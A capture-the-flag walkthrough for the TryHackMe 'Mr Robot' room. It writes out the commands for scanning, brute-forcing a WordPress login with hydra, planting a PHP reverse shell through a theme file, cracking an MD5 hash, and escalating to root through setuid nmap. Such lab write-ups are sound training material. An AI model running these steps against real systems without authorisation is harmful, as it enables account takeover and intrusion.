*2021-09-18*

*kimm3*

# Walkthrough: Mr Robot
Platform: TryHackMe

Difficulty: Medium

- [Link](https://tryhackme.com/room/mrrobot)

Mr. Robot themed box.
## Setup


`script history/enum1; export IP=10.10.188.192; ping $IP;`

(Machine responds to ICMP echo)
## Scans and enumeration
`sudo nmap $IP -p- -A -Pn -v -oA scans/nmap-init`





A really cool site with a shell inspired from the TV show. The commands return cool stuff from the show, but nothing useful. The 'join' command let's you enter an email address. Site dosen't return anything different based on input. It dosen't send anything to email address.





Same site but with https.



`ffuf -u "http://10.10.47.240/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-init80`

The search takes alot of time, but with the inital results, we can identify that it hosts a wordpress site.





We don't have access to the blog url, but if we just type a lot of junk after we get the wordpress 404(not found) site.





The readme file.



The robots.txt give us a filename that contains one of the keys, also a dictionary/wordlist file.



1 of 3 complete.

`wpscan --url http://10.10.47.240/ -e`

`wpscan --url http://10.10.47.240/ --enumerate u1-1000`



Not being able to enumerate users via ID. Having seen the show I tried 'elliot' which existed.



If I hadn't seen the show, you could have gotten the username with a public wordlist, or the fsocity.dic, using hydra:

```
hydra -L sl/Usernames/Names/names.txt -p test 10.10.47.240 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.47.240%2Fwp-admin%2F&testcookie=1:F=Invalid username."
```



(This only test if the username exists, 'test' is not the password.)

Now we can try to brute-force elliots password. Generating a custom wordlist with elliots last name, birthday, pet name.



`wpscan --password-attack "wp-login" --url "http://10.10.47.240/" -U 'elliot' -P elliot.txt`



Nothing, let's try to use the fsocity.dic that we found in the 'robots.txt'. The file has a huge number of lines, but most of them are dupclicates:



Sorting out all dupclicates

`sort foundfiles/fsocity.dic | uniq > foundfiles/fsocity.dic.sort`

The webserver is really slow, so if you don't sort them out or start from the bottom of the list, it will take longer to scan than you can have a machine active on TryHackMe. Even with this shorter list and 32 threads, it took hydra nearly 30 minutes to go through the wordlist.



` hydra -l elliot -P foundfiles/fsocity.dic.sort 10.10.137.132 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.137.132%2Fwp-admin%2F&testcookie=1:F=login_error" -f -t 32`

## Foothold
Now that we have a wp-admin login, we can change php files to inlcude reverse shells and execute them to gain a foothold. To automate the process with metasploit, use `exploit/unix/webapp/wp_admin_shell_upload`.





```
nc -lvnp 445
curl http://10.10.137.132/wp-content/theme/twentyfifteen/404.php
```



The second flag is in the robot home folder, but only robot user can read it. It seems that a md5 hash of robots password is saved in cleartext.



`hashcat -a 0 -m 0 c3fcd3d76192e4007dfb496cca67e13b foundfiles/fsocity.dic.sort`



`hashcat -a 0 -m 0 c3fcd3d76192e4007dfb496cca67e13b sl/Passwords/Leaked-Databases/rockyou.txt`





Key 2 of 3 complete.
## Privilege Escalation


Key 3 of 3 and prives was rather easy. Search for setuids with:

`find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null`

One that stands out is nmap. There are several vulnerabilities if you can run nmap as root. The easiest is starting it in interactive mode wich allows us to run system commands from inside nmap.

`!sh`

For more setuid vulns, see [this link](https://gtfobins.github.io/gtfobins/nmap/).
